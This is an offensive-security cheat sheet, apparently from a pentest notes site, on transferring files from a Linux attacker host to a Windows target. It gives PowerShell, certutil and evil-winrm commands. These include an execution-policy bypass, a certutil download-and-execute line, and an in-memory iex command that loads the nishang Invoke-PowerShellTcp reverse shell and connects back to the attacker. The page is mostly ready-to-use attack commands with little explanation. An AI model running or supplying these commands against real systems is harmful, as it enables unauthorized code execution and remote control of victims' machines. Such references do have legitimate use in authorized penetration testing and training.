 ```yaml
---
title: "File Transfer (Linux to Windows)"
date: 2024-6-26
tags: ["Curl", "Http File Transfer", "File Transfer", "Windows", "Evil-Winrm", "IEX", "IWR", "certutil"]
---
```


{{< tab set1 tab1 active >}}Powershell{{< /tab >}}
{{< tab set1 tab2 >}}cmd{{< /tab >}}
{{< tab set1 tab3 >}}evil-winrm{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### Start a Local HTTP Server

```console
python3 -m http.server <LOCAL_PORT>
```

```console {class=sample-code}
$ python3 -m http.server 8443
Serving HTTP on 0.0.0.0 port 8443 (http://0.0.0.0:8443/) ...
```

<br>

```console
# Invoke-WebRequest
iwr http://<LOCAL_IP>:<LOCAL_PORT>/<FILE> -o C:\ProgramData\<FILE>
```

<small>*Note: PowerShell 3.0+*</small>

```console
# Curl
powershell -ep bypass curl <LOCAL_IP>:<LOCAL_PORT>/<FILE> -o C:\ProgramData\<FILE>
```

<small>*Note: curl is not always available*</small>

```console
# Load into memory and Run
```

```console
# Invoke-Expression
iex (New-Object Net.WebClient).DownloadString('http://<LOCAL_IP>:<LOCAL_PORT>/rev.ps1');Invoke-PowerShellTcp -Reverse -IPAddress <LOCAL_IP> -Port <LOCAL_PORT>
```

```console
# Short version
iex (iwr http://<LOCAL_IP>:<LOCAL_PORT>/rev.ps1)
```

<small>*Ref: [rev.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### Start a Local HTTP Server

```console
python3 -m http.server <LOCAL_PORT>
```

<br>

```console
certutil -urlcache -split -f http://<LOCAL_IP>:<LOCAL_PORT>/<FILE> C:\ProgramData\<FILE>
```

```console
# Upload and Run
certutil -urlcache -split -f http://<LOCAL_IP>:<LOCAL_PORT>/<FILE> C:\ProgramData\<FILE> && C:\ProgramData\<FILE>
```

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

```console
# Evil-winrm built-in function
upload '<LOCAL_FILE_PATH>' "C:\ProgramData\<FILE>"
```

```console {class=sample-code}
*Evil-WinRM* PS C:\programdata> upload /home/kali/PowerView.ps1 C:\ProgramData\PowerView.ps1
                                        
Info: Uploading /home/kali/PowerView.ps1 to C:\ProgramData\PowerView.ps1
                                        
Data: 1027036 bytes of 1027036 bytes copied
                                        
Info: Upload successful!
```

{{< /tabcontent >}}
